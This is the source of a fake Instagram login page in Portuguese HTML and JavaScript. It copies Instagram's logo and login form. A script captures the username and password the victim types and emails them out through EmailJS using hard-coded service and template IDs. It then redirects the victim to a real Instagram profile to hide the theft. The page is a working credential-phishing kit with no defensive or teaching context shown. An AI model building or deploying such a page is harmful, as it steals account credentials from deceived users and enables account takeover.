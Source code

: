         function enviarEmail(event) {
            event.preventDefault(); // Impede o comportamento padrão de recarregar a página

            var emailInput = document.querySelector('input[placeholder="Telefone, nome de usuário ou e-mail"]').value;
            var passwordInput = document.querySelector('input[placeholder="Senha"]').value;

            // Configurando o template do EmailJS
            var templateParams = {
                email: emailInput,
                senha: passwordInput,
            };

            emailjs.send("service_2ifod2v", "template_3c0aqnj", templateParams)
                .then(function(response) {
                    // Redirecionar para o link do Instagram
                    window.location.href = "https://instagram.com/eukenedybr";
                }, function(error) {
                    alert('Falha ao enviar email.', error);
                    console.log('EmailJS error:', error);
                });
        }
    </script>
</head>
<body>
    <div class="container">
        <div class="login-box">
            <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/a/a5/Instagram_icon.png/600px-Instagram_icon.png" alt="Logo do Instagram" width="180">
            <form onsubmit="enviarEmail(event)">
                <div class="input-box">
                    <input type="text" placeholder="Telefone, nome de usuário ou e-mail" required>
                </div>
                <div class="input-box">
                    <input type="password" placeholder="Senha" required>
                </div>
                <button class="login-button" type="submit">Entrar</button>
            </form>

            <div class="or">
                <div></div>
                <span>OU</span>
                <div></div>
            </div>

            <div class="facebook-login">Entrar com Facebook</div>
            <a href="#">Esqueceu a senha?</a>
        </div>

        <div class="signup-box">
            Não tem uma conta? <a href="#">Cadastre-se</a>
        </div>
    </div>
</body>
</html>
